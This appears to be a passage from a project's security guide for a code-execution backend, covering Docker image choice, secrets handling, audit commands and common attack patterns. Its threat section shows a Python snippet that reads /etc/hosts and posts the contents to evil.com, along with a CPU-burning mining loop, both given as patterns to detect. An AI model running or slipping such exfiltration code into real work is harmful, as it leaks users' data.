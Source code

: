 ### 2. Image Minimization

```dockerfile
# ✅ Good: Minimal Alpine image
FROM python:3.11-alpine
RUN apk add --no-cache gcc musl-dev

# ❌ Bad: Full Ubuntu image with unnecessary tools
FROM ubuntu:22.04
RUN apt-get update && apt-get install -y python3 vim curl wget git
```

### 3. Secrets Management

```bash
# ✅ Good: Environment variables for secrets
API_KEY=random-256-bit-key-here

# ❌ Bad: Hardcoded in source code
const API_KEY = "secret123";
```

### 4. Regular Security Audits

```bash
# Check for vulnerabilities in dependencies
npm audit

# Scan Docker images
docker scan code-execution-backend:latest

# Review security logs
grep "WARN\|ERROR" logs/security.log
```

## 🎯 Threat Intelligence

### Common Attack Patterns

1. **Cryptocurrency Mining**
   ```python
   # Pattern: CPU intensive operations
   import hashlib
   while True:
       hashlib.sha256(b"mining").hexdigest()
   ```

2. **Data Exfiltration**
   ```python
   # Pattern: File access + network requests
   with open("/etc/hosts", "r") as f:
       data = f.read()
   requests.post("http://evil.com", data=data)
   ```
